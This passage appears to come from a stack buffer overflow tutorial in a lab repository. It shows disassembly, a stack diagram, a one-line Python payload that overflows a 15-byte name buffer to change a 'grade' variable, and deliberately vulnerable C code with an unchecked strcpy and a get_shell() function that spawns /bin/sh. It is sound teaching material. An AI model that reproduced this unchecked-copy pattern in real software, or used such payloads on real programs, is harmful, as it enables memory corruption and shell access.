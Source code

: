 ```shell
 80484b1:   90                      nop
 80484b2:   8b 4d fc                mov    -0x4(%ebp),%ecx
 80484b5:   c9                      leave  
 80484b6:   8d 61 fc                lea    -0x4(%ecx),%esp
 80484b9:   c3                      ret    
 80484ba:   66 90                   xchg   %ax,%ax
 80484bc:   66 90                   xchg   %ax,%ax
 80484be:   66 90                   xchg   %ax,%ax
...
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

The stack layout for `main()` looks like this:

```
ESP => |------------|  lower address
       |    ...     |        |
       |------------|        |
       |            |        |
       |  name[15]  |        |
       |            |        |
       |            |        |
       |------------|        |
       |   grade    |        |
       |------------|        |
       |    ...     |        |
EBP => |------------|        |
       |            |        V
       |------------|  higher address
```

Since `name` can only hold 15 bytes, the last byte will overwrite
adjacent memory. We can overwrite the content of `grade` using the
last byte.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ python -c 'print "a" * 15 + "A"' | ./1_grade 
aaaaaaaaaaaaaa scored A
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

Let's try another [binary][3] compiled with the following vulnerable
[source code][4]:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void get_shell() {
    system("/bin/sh");
}

void echo(char* arg) {
    char buffer[16];
    strcpy(buffer, arg);
    printf("%s\n", buffer);
}

int main(int argc, char** argv) {
    echo(argv[1]);
}
```


[1]: ./build/1_grade
[2]: ./src/1_grade.c
[3]: ./build/2_echo
[4]: ./src/2_echo.c